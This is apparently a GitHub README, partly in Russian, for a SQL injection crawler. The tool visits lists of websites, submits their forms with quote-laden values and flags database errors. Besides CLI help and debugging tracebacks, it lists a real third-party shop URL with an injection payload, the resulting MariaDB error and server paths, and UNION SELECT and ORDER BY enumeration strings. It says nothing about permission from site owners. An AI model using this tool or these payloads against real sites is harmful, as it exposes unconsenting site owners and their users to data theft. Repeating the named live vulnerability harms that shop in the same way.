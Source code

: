 # SQLi Crawler

> WARNING: IN ACTIVE DEVELOPMEMT!!!

Crawling links and forms using headless Chromium and check its to SQLi.

Принцип работы:

- есть список сайтов
- последовательно посещаем их внутрениие ссылки, отправляя все формы
- перехватываем запросы, а потом модифицируем их и проверяем ответы на наличие ошибок БД

Install from source:

```bash
git clone && cd
pipx install --force .
```

Usage:

```bash
~/workspace/sqli-crawler main
❯ sqli-crawler -h
usage: sqli-crawler [-h] [-i INPUT] [-o OUTPUT] [-d CRAWL_DEPTH] [--crawl-per-host CRAWL_PER_HOST] [--num-crawlers NUM_CRAWLERS] [--num-checkers NUM_CHECKERS]
                    [--req-checks REQ_CHECKS] [--executable-path EXECUTABLE_PATH] [--show-browser | --no-show-browser] [-v]

SQLi Crawler

options:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        input (default: -)
  -o OUTPUT, --output OUTPUT
                        output (default: -)
  -d CRAWL_DEPTH, --crawl-depth CRAWL_DEPTH, --depth CRAWL_DEPTH
                        max crawling depth (default: 2)
  --crawl-per-host CRAWL_PER_HOST
                        max links to crawl per host (default: 50)
  --num-crawlers NUM_CRAWLERS
                        number of crawlers (default: 25)
  --num-checkers NUM_CHECKERS
                        number of sqli checkers (default: 10)
  --req-checks REQ_CHECKS
                        max checks for request (default: None)
  --executable-path EXECUTABLE_PATH
                        chrome-like browser executable path. use environment variable `CHROME_EXECUTABLE_PATH` instead (default: None)
  --show-browser, --no-show-browser
                        show the browser (default: False)
  -v, --verbosity       be more verbosity (default: 0)
```

```bash
poetry run playwright install chromium
```

```json
{
  "method": "GET",
  "url": "https://<cut>/fsrch_res.php",
  "status_code": 200,
  "params": { "Lang": "it", "SrchText": "test'\"", "SrchInto": "All" },
  "cookies": { "PHPSESSID": "af9v7sp51r5va8hrtqog05auo0" },
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "referer": "https://<cut>/home.php?Lang=it",
    "upgrade-insecure-requests": "1",
    "user-agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
    "sec-ch-ua": "\"Not.A/Brand\";v=\"8\", \"Chromium\";v=\"114\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\""
  },
  "match": "You have an error in your SQL syntax"
}
```

## Notes

`pyppeteer` падал с загадочными ошибками, поэтому был заменен на `playwright`.

```
[E] Connection closed while reading from the driver
Traceback (most recent call last):
  ...
playwright._impl._api_types.TimeoutError: Timeout 15000ms exceeded.

=========================== logs ===========================
navigating to "https://5elementshostel.de/frankfurt/#reviews", waiting until "networkidle"
============================================================

  File "/home/sergey/.cache/pypoetry/virtualenvs/sqli-crawler-pMyiD5aU-py3.11/lib/python3.11/site-packages/playwright/_impl/_connection.py", line 97, in inner_send
    result = next(iter(done)).result()
             ^^^^^^^^^^^^^^^^^^^^^^^^^
Exception: Connection closed while reading from the driver

future: <Task finished name='Task-2253' coro=<SQLiCrawler.handle_route() done, defined at /home/sergey/workspace/sqli-crawler/sqli_crawler/crawler.py:122> exception=Error('POST data is not a valid JSON object: ------WebKitFormBoundary7XSTb8eK9A02QFw9\r\nContent-Disposition: form-data; name="_requestToken"\r\n\r\n0\r\n------WebKitFormBoundary7XSTb8eK9A02QFw9--\r\n')>
Traceback (most recent call last):
  File "/home/sergey/.cache/pypoetry/virtualenvs/sqli-crawler-pMyiD5aU-py3.11/lib/python3.11/site-packages/playwright/_impl/_network.py", line 181, in post_data_json
    return json.loads(post_data)
           ^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/json/__init__.py", line 346, in loads
    return _default_decoder.decode(s)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/json/decoder.py", line 337, in decode
    obj, end = self.raw_decode(s, idx=_w(s, 0).end())
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/json/decoder.py", line 355, in raw_decode
    raise JSONDecodeError("Expecting value", s, err.value) from None
json.decoder.JSONDecodeError: Expecting value: line 1 column 1 (char 0)

aiohttp.client_exceptions.ClientOSError: Cannot write to closing transport

aiohttp.client_exceptions.ClientOSError: Cannot write to closing transport
```

Если количество краулеров задано как `25`, то количество вкладок будет минимум 26, так как стартовая вкладка не управляется, и до закрытия старой страницы успевает открытьяс новая, те максимальное количество вкладок будет 25 \* 2 + 1?

Initiator пока не реализован.

https://github.com/microsoft/playwright/issues/16326

### SQL Errors Examples

`https://shop.roeder-feuerwerk.de/?eventchanger=2%27%22`

```
<br>
<b>Fatal error</b>:  Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"' WHERE sessionID = 'im0fjag9sqck1hdefmj8fk568s'' at line 1 in /var/www/clients/client1/web4/web/engine/Library/Zend/Db/Adapter/Pdo/Abstract.php:256
Stack trace:
#0 /var/www/clients/client1/web4/web/engine/Library/Zend/Db/Adapter/Pdo/Abstract.php(256): PDO-&gt;exec()
#1 /var/www/clients/client1/web4/web/custom/plugins/MofaEventShopping/Subscriber/Frontend/Frontend.php(172): Zend_Db_Adapter_Pdo_Abstract-&gt;exec()
#2 /var/www/clients/client1/web4/web/engine/Library/Enlight/Event/Handler/Default.php(90): MofaEventShopping\Subscriber\Frontend\Frontend-&gt;onFrontendPostDispatch()
#3 /var/www/clients/client1/web4/web/engine/Library/Enlight/Event/EventManager.php(207): Enlight_Event_Handler_Default-&gt;execute()
#4 /var/www/clients/client1/web4/web/engine/Library/Enlight/Controller/Action.php(223): Enlight_Event_ in <b>/var/www/clients/client1/web4/web/engine/Library/Zend/Db/Adapter/Pdo/Abstract.php</b> on line <b>271</b><br>
```

```
order by 1..20,10,40,30
handler.php?id=-1+union+select+1,2,3,4,5,6,7,8,9,10,11
```

https://gist.github.com/s3rgeym/70d968ac28b07ddce1515dc1a403521f
